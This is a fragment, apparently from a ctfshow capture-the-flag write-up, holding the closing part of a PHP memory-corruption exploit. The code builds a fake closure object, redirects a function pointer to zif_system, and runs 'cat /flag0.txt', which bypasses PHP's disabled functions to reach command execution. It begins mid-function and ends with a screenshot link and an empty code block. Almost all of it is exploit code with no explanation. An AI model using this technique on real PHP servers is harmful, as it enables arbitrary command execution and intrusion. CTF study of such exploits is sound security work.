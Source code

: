 ```php

    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
?>
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637904931173-2f43abe6-16cd-4015-a29d-8a3e86045076.png#clientId=u90c89801-edf6-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=450&id=u2a40129a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=816&originWidth=1056&originalType=binary&ratio=1&rotation=0&showTitle=false&size=124667&status=done&style=none&taskId=u446bab68-0c05-4151-bc4a-f1279591da6&title=&width=582)
```php
```